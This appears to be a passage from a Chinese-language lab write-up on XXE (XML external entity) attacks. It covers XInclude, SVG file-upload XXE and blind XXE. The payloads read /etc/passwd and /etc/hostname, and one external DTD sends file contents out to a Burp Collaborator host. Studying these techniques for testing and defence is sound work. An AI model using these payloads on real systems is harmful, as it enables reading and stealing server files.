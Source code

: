 ![image-20220525144921396](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525144921396.png)

稍微剖析下Poc，xmlns是XML的命名空间简称，即**xml namespace**，Poc中定义了一个命名空间，即`http://www.w3.org/2001/XInclude`，xmlns:xi中xi是命名前缀，是自定义的，如:`xmlns:lbwnb`,`xmlns:xi="http://www.w3.org/2001/XInclude"`的作用是告诉XML中所有元素的命名空间都是`http://www.w3.org/2001/XInclude`，而`xi:include`变相等于`http://www.w3.org/2001/XInclude/xi:include`

```xaml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

------

#### 0x07 文件上传XXE

![image-20220525152404346](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525152404346.png)

构造<svg> Poc:

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

更改`Content-Type`为`application/x-www-form-urlencoded`或`text/xml`

![image-20220525152730319](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525152730319.png)

由于没有限制直接作为头像上传上去了

![image-20220525152829685](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525152829685.png)

头像就是flag

![image-20220525152844795](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525152844795.png)

不仅是svg思路，常用的上传思路还有DOCX

------

#### 0x08 盲XXE(不允许包含常规外部实体的请求)

通过DNS服务器外带数据，Poc：

```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://DNSLOG"> %xxe; ]>
```

![image-20220525153807809](https://raw.staticdn.net/ShmilyChris/wiki/main/image-20220525153807809.png)

收到请求证明能盲XXE再构造外带数据，先在服务器上生成个DTD文件(`&#x25;`是HTML实体编码，即%的意思)

```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://g9qj5xp8uqhv3z58rbnq4apfm6sygn.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
